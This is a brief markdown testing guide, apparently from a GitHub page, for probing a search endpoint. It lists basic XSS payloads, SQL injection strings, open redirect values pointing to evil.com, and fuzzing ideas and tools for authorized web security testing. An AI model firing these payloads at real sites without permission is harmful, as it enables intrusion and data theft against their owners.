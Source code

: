 # Search Endpoint Testing Guide

### 📌 Target: `/search?keyword=womp`

###  Basic Test Cases
- Check for client-side filtering
- Use reserved characters: `!@#$%^&*()<>`
- Inject common payloads for XSS, SQLi, Open Redirect

### XSS Payloads
<script>alert(1)</script>
"><svg/onload=alert(1)>
"><img src=x onerror=alert(1)>

### SQL Injection Payloads
womp' OR '1'='1
womp' --
womp') OR 1=1--

### Open Redirect Payloads (if redirection observed)
/search?next=http://evil.com
/search?redirect=https://google.com

### Fuzzing Ideas
- Long strings (`A*10,000`)
- Unicode payloads (`٪` `%EF%BC%86`)
- HTML-encoded strings

### 🛠️ Tools Used
- Burp Suite Intruder
- FFUF with custom wordlists
- XSS Hunter

### 📌 Notes
- Check `Referer`, `Origin`, and `Content-Type` behavior
- Review caching headers (`Cache-Control`, `ETag`, etc.)
- Observe input reflection in responses